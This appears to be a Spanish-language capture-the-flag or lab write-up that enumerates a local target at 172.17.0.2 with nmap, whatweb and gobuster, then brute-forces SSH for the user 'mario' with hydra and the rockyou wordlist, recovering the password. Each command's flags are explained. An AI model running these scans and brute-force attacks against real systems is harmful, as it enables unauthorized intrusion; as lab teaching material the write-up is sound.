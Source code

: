 ##1) Me anoto la IP que es fundamental para saber a quien atacar

##2) nmap para identificar posibles puertos abiertos
```
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 172.17.0.2
```
Cada parámetro:
`-p-: quiero explorar los 65535 puertos pues no se cual puede estar abierto`
`--open: sólo me importan los abiertos, ni cerrados ni filtrados`
`-sS: quiero que haga stealth scanning, es un escaneo silencioso que no completa el 3 way handshake`
`-vvv: que sea bien verboso, a medida que encuentra un resultado, lo escupa`
`---min-rate XXXX: que sea veloz y no mande menos de tantos pkg por segundo`
`-n: no quiero resolución DNS, es lento`
`-Pn: quiero evitar que haga host discovery, puede ser lento`

##3) Una vez identificados posibles puertos abiertos quiero ser más exhaustivo con el análisis de cada uno
```
nmap -p22,80 -sC -vvv 172.17.0.2
```
`-p22,80: acá pongo los puertos que me identificó como abiertos previamente`
`-sC: el tipo de script que quiero que corra para realizar un escaneo, es el default, scripts en Lua. Va a brindar información sobre el host y tecnologias que usa`

## 4) otra utilidad para conocer detalles de la IP víctima es whatweb
`whatweb 172.17.0.2`
Da información sobre el sistema operativo, la versión de Apache o lo que estuviese corriendo, y más.

## 5) Ahora voy a hacer fuzzing para investigar qué endpoints hay
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,txt
```
Hago fuzzing por medio de gobuster y utilizando una lista de palabras 
`dir: para utilizar el modo de enumeración de archivos/directorios `
`-w <PATH>: la lista de palabras a utilizar para el fuzz`
`-t X: cantidad de threads concurrentes`
`-x php,txt el tipo de extensiones a buscar (ej. index.php, secrets.txt) `

Encontré una página:
/secret.php --> dice "Hola Mario"

## 6) Como la página dice 'Hola Mario' y previamente con nmap descubrí que el puerto 22 (SSH) estaba abierto, pienso hacerle fuerza bruta al usuario mario/root.
```
hydra -l mario -P /usr/share/wordlists/rockyou.txt <IP> -t 64
```
`-l <USER>: seteo el USER, el nombre de logeo`
`-P <FILE>: cargo el archivo con contraseñas para hacer fuerza bruta`
`-t N: cuantas tareas correr en paralelo por cada ataque`

Encontré la contraseña:
user: mario | passw: chocolate



